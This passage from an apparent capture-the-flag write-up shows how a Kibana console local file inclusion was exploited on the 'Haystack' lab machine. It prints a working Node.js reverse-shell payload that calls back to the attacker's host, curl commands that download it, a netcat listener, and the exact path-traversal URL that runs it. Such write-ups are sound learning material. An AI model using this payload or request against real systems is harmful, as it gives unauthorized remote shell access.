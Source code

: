 This executes es_6_0.js. On the victim machine, es_6_0.js can be found in this directory:

{% highlight plaintext %}
[security@haystack ~]$ ls /usr/share/kibana/src/core_plugins/console/api_server
api.js  echo.js  es_6_0  es_6_0.js  server.js  spec
{% endhighlight %}

Unfortunately, I couldn't get other LFIs to work (such as viewing /etc/passwd). The CyberArk article seemed to imply you could only verify the results of a non-js LFI by viewing the logs, which the security user doesn't seem to have access to.

So instead of working my way up, I went for reverse shell off the bat. I find a JavaScript shell from [https://wiremask.eu/writeups/reverse-shell-on-a-nodejs-application/](https://wiremask.eu/writeups/reverse-shell-on-a-nodejs-application/):

{% highlight javascript %}
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(4444, "10.10.14.31", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application from crashing
})();
{% endhighlight %}

I serve it on Kali using Python SimpleHTTPServer and download it to /tmp (where I have write privileges) using `curl`.

{% highlight plaintext %}
[security@haystack tmp]$ curl -O 10.10.14.31:2222/shell.js                                          
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current                     
                                 Dload  Upload   Total   Spent    Left  Speed                       
100   382  100   382    0     0   3368      0 --:--:-- --:--:-- --:--:--  3380                      
{% endhighlight %}

I set up my netcat listener on Kali.

{% highlight plaintext %}
root@kali:~# nc -nlvp 4444
listening on [any] 4444 ...
{% endhighlight %}

In my browser, I navigate to http://127.0.0.1:9000/api/console/api_server?sense_version=%40%40SENSE_VERSION&apis=../../../../../../../../../../tmp/shell . Back on my listener, I get a connection back as the user kibana.

{% highlight plaintext %}
root@kali:~# nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.14.31] from (UNKNOWN) [10.10.10.115] 40280
whoami
kibana
{% endhighlight %}
